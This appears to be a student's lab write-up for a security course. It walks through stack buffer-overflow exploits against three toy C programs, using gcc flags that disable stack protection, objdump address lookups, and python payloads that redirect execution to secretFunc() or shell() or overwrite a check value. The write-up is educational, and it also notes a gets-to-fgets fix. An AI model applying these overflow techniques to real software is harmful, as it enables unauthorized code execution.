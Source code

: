 # LAB 1

**Run vitual environment by docker file (using for attacking three files: bof1, bof2, bof3)**

`docker run -it --privileged -v D:\StudyHK1_2024\InformationSecurity\SecLabs:/home/seed/seclabs img4lab`

## File bof1.c

**Run bof1.c file** 

`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`

 By using `-fno-stack-protector`, the program is compiled without stack protection, making it easier to exploit buffer overflow vulnerabilities, which might otherwise be caught by the stack protection mechanism.

 By using `-mpreferred-stack-boundary=2`, it's setting the stack alignment to 4 bytes (instead of the default 16 bytes), this option changes how memory is arranged on the stack, which may help in crafting certain types of memory exploits.

**Getting secretFunc() address by command**

`objdump -d bof1.out|grep secretFunc`

![alt text](./image/image.png)

We get the address of secretFunc() is: `0804846b`

**Stack frame**

![alt text](./image/image-1.png)

=> It’s a buffer overflow at the 205th byte.

**Run the program by using command**

- Take advantage of the above statement to automatically input 204 bytes of the letter 'a', then insert the address of the `secretFunc` function.
- placement byte (204byte) + address secretFunc(\x6b\x84\x04\x08)

 `echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out`

![alt text](./image/image-2.png)

=> Successful Attack

=> To prevent exploitation in this case, I will replace `gets()` with `fgets()` to ensure the correct limit of array a is respected.


## File bof2.c

**Summarizing**

- In this case, the array buf[] has 40 elements, but the `fgets()` command reads up to 44 elements `(fgets(buf, 45, stdin))`, with the last element reserved for `\0`, the null terminator character.

 => We rely on the last 4 elements to modify the check.

**Stackframe**

![alt text](./image/image-3.png)


**Run the bof2.c file by using the command**
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./image/image-5.png)

**Run the program by using the command**

`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out`

![alt text](./image/image-6.png)

=> We attack successfully


## File bof3.c

**Summarizing**

- In this case, the `buf[]` array has 128 elements, but the `fgets()` command reads up to 133 elements.

 => We rely on 4 elements to replace the address addition function into the address function shell

**Stack frame**

![alt text](./image/image-7.png)

**Run the bof3.c file**

`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`

**Get the address of the shell function:**
`objdump -d bof3.out|grep shell`

![alt text](./image/image-8.png)

We get the address of shell function is: `0804845b`

**Run the program by using command**

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`

![alt text](./image/image-9.png)

=> Seccessful
